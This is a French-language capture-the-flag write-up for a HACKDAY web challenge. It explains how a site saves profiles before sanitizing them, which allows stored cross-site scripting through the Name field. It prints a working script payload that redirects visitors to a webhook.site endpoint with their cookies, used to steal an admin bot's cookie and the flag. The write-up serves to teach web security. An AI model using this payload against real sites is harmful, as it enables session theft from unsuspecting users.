 # Internal blog

**Web**

You’ve received an anonymous tip from the Airship Mail Delivery Company claiming that a seemingly legitimate website is actually a front for trading stolen submarine mechanical parts. Yeah, that’s oddly specific...

The localhost port is 3000. Take a closer look and see if you can uncover anything suspicious. The flag to find is the bot's cookie.

---

## Préambule

En arrivant sur le site, bien que nous n'ayons pas de source; on peut avoir une partie du code source grâce à un leak.
![[S1.png]]

On peut voir dans cette source, tout en haut, que le profil est sauvegardé avant le check de sanitize.
Si le sanitize fail, le profil est donc quand même sauvegardé.

## Tests

On va donc se créer un profil en essayant de partout de faire des injections, voir ce qui passe.

![image](_attachements/Pasted image 20250126214535.png)

Après la création de ce profil, qui va "échouer", on peut quand même aller à l'URL du profil pour le consulter, puisqu'il a été sauvegardé.

On voit sur cette URL que le champ Name n'est pas sanitized, on va donc pouvoir mettre une balise script à l'intérieur afin de récupérer les cookies des utilisateurs qui consultent ce profil.
![image](_attachements/Pasted image 20250126214959.png)

On utilise https://webhook.site/ pour se créer un point de webhook pour pouvoir récupérer les cookies.

On créé le script suivant :
```html
<script>document.location = "https://webhook.site/2779f411-a895-496e-9525-803b72e50737/" + document.cookie</script>
```
...qu'on rentre dans le champ name

Il faut ensuite que l'admin vienne voir notre page. Pour cela, comme indiqué sur la page d'accueil, il nous suffit de créer un article.
![image](_attachements/Pasted image 20250126215824.png)

Après avoir créé l'article, on voit dans notre webhook qu'on a reçu une requête
![image](_attachements/Pasted image 20250126220031.png)

**Flag : HACKDAY{0rd3R_M4tteRs_In_Ur_C0d3!!!!}**

nhy.